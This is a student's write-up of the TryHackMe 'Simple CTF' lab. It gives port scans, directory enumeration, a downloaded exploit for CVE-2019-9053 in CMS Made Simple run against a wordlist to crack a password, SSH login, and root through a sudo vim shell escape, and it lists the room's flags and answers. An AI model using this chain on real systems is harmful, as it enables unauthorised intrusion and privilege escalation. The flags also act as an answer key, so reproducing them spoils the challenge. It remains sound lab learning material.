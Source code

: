 ```yaml
---
Title: SWS101
categories: [SWS101, CTF Journal2]
tages: [SWS101]
---
```


### Topic : TryHackMe Rooms (Simple CTF)
----

![alt text](../image-7.png)

Scan for Open Ports:

Use nmap to scan ports 0-999 on the target machine.
nmap -sS -Pn -T4 -p 0-999 <ip>

Answer: 2 services running under port 1000.
Identify Services on Specific Ports:

Scan for details on ports 21, 80, and 2222.
nmap -A -Pn -T4 -p21,80,2222 <ip>

Answer: SSH is running on the higher port (2222).

Find Exploits for the Application:

Use gobuster to discover files and directories.
gobuster dir -w /usr/share/wordlists/dirb/common.txt -u <ip>

Visit /simple page and identify the CMS version (CMS Made Simple 2.2.8).
Find an exploit using searchsploit.
searchsploit cms made simple 2.2.8

Answer: CVE-2019-9053

Identify Vulnerability Type:

Answer: SQL Injection (SQLi)
Obtain the Password:

Download and run the exploit script.
wget https://www.exploit-db.com/download/46635
python2 exploit.py -u <url> -c -w /usr/share/wordlists/rockyou.txt
Answer: secret
Login with the Credentials:

Use SSH to login using the obtained credentials.
ssh mitch@<ip> -p 2222
Answer: SSH
Find the User Flag:

Locate and read the user.txt file.
ls
cat user.txt
Answer: G00d j0b, keep up!
Check for Other Users:

List home directories to find other users.
ls /home
Answer: sunbath
Gain Privileged Shell:

Check for user’s sudo privileges.
sudo -l
Answer: vim

Get the Root Flag:
Use vim to gain root shell.
sudo vim -c ':!/bin/sh'
Locate and read the root.txt file.
cat /root/root.txt
Answer: W3ll d0n3.
